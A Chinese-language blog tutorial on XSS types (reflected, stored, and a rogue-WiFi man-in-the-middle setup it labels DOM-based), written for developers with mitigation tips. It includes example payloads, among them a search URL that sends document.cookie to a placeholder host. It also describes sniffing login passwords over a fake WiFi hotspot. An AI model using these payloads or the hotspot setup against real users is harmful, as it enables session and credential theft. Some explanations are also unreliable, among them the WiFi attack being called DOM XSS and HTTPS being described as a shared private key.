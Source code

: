 ```yaml
---
title: 安全-XSS攻击大全
date: 2018-05-22 15:45:09
tags: [安全,XSS]
category: "安全"
---
```

# 前端安全之XSS攻击
`XSS`(cross-site scripting跨域脚本攻击) 攻击是最常见的web攻击，其重点是"跨域"和"客户端执行"。有人将XSS攻击分为三种，分别是：
- 1、Reflected XSS（基于反射的XSS攻击）
- 2、Stored XSS（基于存储的XSS攻击）
- 3、DOM-based or local XSS（基于DOM或本地的XSS攻击）

## Reflected XSS
基于反射的XSS攻击，主要一搞站点服务端返回脚本，在客户端触发执行从而发起Web攻击。
`例子`：
- 1、做个假设，当亚马逊在搜索书记，搜不到书的名字的时候显示提交的名称。
- 2、在搜索框搜索内容，填入"<script>alert("handsome body")</script>",点击搜索
- 3、当前端页面没有对返回的数据进行过滤，直接显示在页面上，这是就会alert那个字符出来。
- 4、进而可以构造获取用户cookies的地址，通过QQ群或者垃圾邮件，来让其他人点击这个地址：
```html
http://www.amazon.cn/search?name=<script>document.location='http://xxx/get?cookie='+document.cookie</script>
```

PS:这个地址当然是无效的，只是举个例子而已。

`结论：`
如果只是1、2、3步做成功，那也只是自己折腾自己而已，如果第4步能做成功，才是个像样的XSS攻击。
`开发安全措施：`
- 1、前端在显示服务端数据的时候，不仅是标签内容需要过滤、转义，就连属性值也都可能需要。
- 2、后端接收请求时，验证请求是否为攻击请求，攻击则屏蔽。

例如：
标签：
```html
<span><script>alert('handsome boy')</script></span>
```
转义
```html
<span>&lt;script&gt;alert(&#39;handsome boy&#39;)&lt;/script&gt</span>
```
属性：
如果input的value属性值是
```html
琅琊榜" onclick="javascript:alert('handsome boy')
```
就可能出现
```html
<input type="text" value="琅琊榜" onclick="javascript:alert('handsome boy')">
```
点击input导致攻击脚本被执行，解决方式可以对script或者双引号进行过滤。
## Stored XSS
基于存储的XSS攻击，是通过发表带有恶意跨域脚本的帖子/文章，从而把恶意脚本存储在服务器，每个访问该帖子/文章的人就会被触发执行。
`例子`
- 1、发一篇文章，里面包含恶意脚本
```javascript
今天天气不错啊！<script>alert('handsome boy')</script>
```
- 2、后端没有对文章进行过滤，直接保存文章内容到数据库。
- 3、当其他人看这篇文章的时候，包含的恶意脚本就会执行。
- PS:因为大部分文章是保存整个HTML内容的，前端显示的时候不做过滤，就极可能需要做些处理了。

`结论：`
后端尽可能对提交的数据做过滤，在场景需求而不过滤的情况下，前端就需要做些处理了。
`开发安全措施：`
- 1、首要是服务端要进行过滤，因为前端的校验可以被绕过。
- 2、当服务端不校验的时候，前端要以各种方式过滤里面可能的恶意脚本，例如`script`标签，将特殊字符转化成`HTML`编码。

## DOM-based or local XSS
基于DOM或者本地的XSS攻击。一般是提供免费的`wifi`，但是提供免费`wifi`的网关会忘你访问的任何页面插入一段脚本或者直接返回一个钓鱼页面，从而植入恶意脚本。这种直接存在于页面，无须经过服务器返回就是基于本地的`XSS`攻击。
`例子1：`
- 1、提供一个免费的`wifi`
- 2、开启一个特殊的`DNS`服务，将所有域名都解析到我们的电脑上，并把`Wifi`的`DHCP-DNS`设置为我们的电脑`IP`
- 3、之后脸上`wifi`的用户打开任何网站，请求都被我们截取到。我们根据`http`头中的`host`字段来转发到真正的服务器上。
- 4、收到服务器返回的数据之后，我们就可以网页脚本的注入，并返回给用户。
- 5、当注入的脚本被执行，用户的浏览器将依次预加载各大网站的常用脚本库。

<img src="/static/img/XSS-1.png" width="700" />

这个其就是`wifi`流量劫持，中间人可以看到用户的每一个请求，可以在页面嵌入恶意代码，使用恶意代码获取用户的信息，可以返回钓鱼页面。

`例子2：`
- 1、还是提供一个免费`wifi`
- 2、在我们电脑上抓包
- 3、分析数据，可以获取用户的微信朋友圈、邮箱、社交网站账号数据（HTTP）等。

<img src="/static/img/XSS-2.png" width="700" />

PS：这个是我的测试，在51job页面登录时进行抓包，可以获取账号密码。
`结论：`
这攻击其实跟网站本身没什么联系，只是数据被中间人获取而已，而由于`HTTP`是明文传输的，所以是极可能被且与的。
`开发安全措施：`
- 1、使用`HTTPS`，`HTTPS`会在请求数据之前进行一次握手，使得客户端与服务端都有一个私钥，服务端用这个私钥加密，客户端用这个私钥解密，这样即使数据被人截取了也是加密后的数据。

## 总结
`XSS`攻击的特点就是：尽一切办法在目标网站上执行非目标网站的脚本。本地的`XSS`攻击的`示例2`其实不算`XSS`攻击，只是简单的流量劫持。前两种`XSS`攻击是我们开发时要注意的，而流量劫持的则可以使用`HTTPS`提高安全性。


